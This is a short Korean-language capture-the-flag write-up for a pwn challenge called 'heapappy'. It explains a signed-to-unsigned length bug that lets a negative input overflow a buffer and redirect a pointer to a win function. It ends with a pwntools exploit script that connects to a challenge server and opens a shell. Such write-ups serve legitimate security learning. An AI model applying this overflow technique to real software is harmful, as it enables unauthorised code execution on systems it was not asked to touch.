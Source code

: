 ```yaml
---
title: 'CCE - heapappy'
published: 2025-08-24
author: 'onLeaf'
description: 'heapappy writeup'
image: 'https://cdn.discordapp.com/avatars/1001487706267844608/04764b047c96ad414755cb889b85c36c.webp?size=80'
tags: ['Pwn','cce','sad']
category: 'PWN'
draft: false
---
```

#힙하다.

파일을 분석해보면 5가지의 큰 함수가 있다. 

그중 adopt 함수 내부를 보면 입력할 길이를 받고 input 함수를 호출하는 코드가 있다. 
근데 입력할 길이가 올바른지 판단하는 조건에서 입력이 24보다 크면 너무 길다고 출력하는 코드가 있지만 음수를 입력받았을때는 판단하지 않고 그냥 input으로 보내버린다. l
이 점이 의심스러워 input을 뜯어보니 전에 길이를 입력받을때엔 int로 선언되어있던 v1이 input함수로 넘어가면서 unsigned_int로 바뀌었다. 
이 점을 이용해 -99999같은 값을 입력할 길이에 넣어버리면 unsigned_int에 의해 매우 큰 값으로 바뀌고 여기에 win 함수의 주소를 넣어 ret을 덮고

포인터를 사용하는 perform_ritual 함수를 호출하면 
쉘을 딸 수 있다.


```python
from pwn import *

#p = process('./prob')
p = remote('3.38.164.12', 3030)
e = ELF('./prob')

win = e.symbols['win']

p.sendlineafter('Choice: ',b'1')

p.sendlineafter('Name length: ',b'-99999')

p.sendlineafter('Name bytes: ',b'A'*32 + p64(win))

p.sendlineafter('Choice: ',b'3')

p.interactive()
```
